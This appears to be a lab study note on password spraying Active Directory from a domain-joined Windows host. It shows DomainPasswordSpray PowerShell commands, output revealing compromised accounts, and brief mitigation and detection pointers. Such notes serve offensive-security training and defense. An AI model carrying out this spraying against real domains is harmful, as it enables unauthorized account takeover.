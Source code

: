 ```yaml
---
title: d-Password Spraying - Windows
draft: false
tags:
  - password-spray
  - domainpasswordspray
---
```

If we have a foothold on domain-joined Windows host, we can use[DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) tool.

If the host is authenticated to the domain, tool will automatically generate a user list from AD, query password policy, and exclude user accounts within one attempt of locking out.

## DomainPasswordSpray - Domain Joined

Since the host we are on is domain joined, it will automatically get user list from AD. 

```powershell-session
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue

[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] The smallest lockout threshold discovered in the domain is 5 login attempts.
[*] Removing disabled users from list.
[*] There are 2923 total users found.
[*] Removing users within 1 attempt of locking out from list.
[*] Created a userlist containing 2923 users gathered from the current user's domain
[*] The domain password policy observation window is set to  minutes.
[*] Setting a  minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 2923 accounts?
[Y] Yes  [N] No  [?] Help (default is "Y"): Y

[*] Password spraying has begun with  1  passwords
[*] This might take a while depending on the total number of users
[*] Now trying password Welcome1 against 2923 users. Current time is 2:57 PM
[*] Writing successes to spray_success
[*] SUCCESS! User:sgage Password:Welcome1
[*] SUCCESS! User:tjohnson Password:Welcome1

[*] Password spraying is complete
[*] Any passwords that were successfully sprayed have been output to spray_success
```


## Mitigation

- Multi-factor Authentication
- Restricting Access

## Detection

On DC's security log:

- [4625: An account failed to log on](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4625)
- [4771: Kerberos pre-authentication failed](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4771)


## Moving On

So we successfully attempted on password spray using password policy and userlist. Now with several sets of valid credentials in hand, we move to performing credentialed enumeration with various tools such as bloodhound.

